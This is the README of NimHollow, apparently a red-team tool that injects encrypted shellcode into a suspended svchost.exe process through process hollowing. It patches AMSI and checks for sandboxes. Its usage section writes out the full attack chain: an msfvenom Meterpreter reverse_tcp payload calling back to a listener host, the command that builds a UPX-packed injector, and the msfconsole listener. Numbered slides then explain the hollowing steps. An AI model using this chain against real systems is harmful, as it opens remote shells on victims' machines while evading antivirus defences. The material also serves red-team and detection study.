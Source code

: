 NimHollow
==========

Playing around with the [Process Hollowing](https://attack.mitre.org/techniques/T1055/012/) technique using Nim.

Features:

* Direct syscalls for triggering Windows Native API functions with [NimlineWhispers](https://github.com/ajpc500/NimlineWhispers).
* Shellcode encryption/decryption with [AES in CTR mode](https://en.wikipedia.org/wiki/Block_cipher_mode_of_operation#Counter_(CTR)).
* AMSI patching with @rasta-mouse's [method](https://rastamouse.me/memory-patching-amsi-bypass/).
* Simple sandbox detection techniques from the OSEP course by @offensive-security.

## Usage

Installation:

```console
~$ git clone --recurse-submodules https://github.com/snovvcrash/NimHollow && cd NimHollow
~$ sudo apt install upx -y
~$ pip3 install -r requirements.txt
```

Example:

```console
~$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.13.13.37 LPORT=31337 EXITFUNC=thread -f raw -o shellcode.bin
~$ python3 NimHollow.py shellcode.bin -i 'C:\Windows\System32\svchost.exe' -o injector --upx --rm
~$ file injector.exe
injector.exe: PE32+ executable (console) x86-64 (stripped to external PDB), for MS Windows
~$ sudo msfconsole -qr msf.rc
```

Help:

```
usage: NimHollow.py [-h] [-i IMAGE] [-o OUTPUT] [--debug] [--upx] [--rm] shellcode_bin

positional arguments:
  shellcode_bin         path to the raw shellcode file

optional arguments:
  -h, --help            show this help message and exit
  -i IMAGE, --image IMAGE
                        process image to hollow (default "C:\Windows\System32\svchost.exe")
  -o OUTPUT, --output OUTPUT
                        output filename
  --debug               do not strip debug messages from Nim binary
  --upx                 compress Nim binary with upx
  --rm                  remove Nim files after compiling the binary
```

## Process Hollowing in Slides

1\. Create the target process (e.g., `svchost.exe`) in a suspended state.

![](https://user-images.githubusercontent.com/23141800/132571935-07adfa73-f33d-4c37-b21c-7f8534699a8d.png)

2\. Query created process to extract its base address pointer from PEB (**P**rocess **E**nvironment **B**lock).

![](https://user-images.githubusercontent.com/23141800/132571944-de967c1f-1518-4d91-a4d6-4d63120017d7.png)

3\. Read 8 bytes of memory (for 64-bit architecture) pointed by the image base address *pointer* in order to get the actual value of the image base address.

![](https://user-images.githubusercontent.com/23141800/132571951-fb9b08b4-b6ab-4ae9-9387-e6f316fd4500.png)

4\. Read 200 bytes of the loaded EXE image and parse PE structure to get the EntryPoint address.

![](https://user-images.githubusercontent.com/23141800/132571964-588c830e-de06-4b09-a708-b32c4150a17c.png)

5\. Write the shellcode to the EntryPoint address and resume thread execution.

![](https://user-images.githubusercontent.com/23141800/132572990-cee11f80-59d4-4fd2-a7f7-245805554b35.png)

## Credits

* @ajpc500 for the [NimlineWhispers](https://github.com/ajpc500/NimlineWhispers) project.
* @byt3bl33d3r for the [OffensiveNim](https://github.com/byt3bl33d3r/OffensiveNim/) repository.
* @S3cur3Th1sSh1t and @chvancooten for Nim [code](https://github.com/S3cur3Th1sSh1t/Creds/tree/master/nim) [snippets](https://github.com/byt3bl33d3r/OffensiveNim/issues/16).

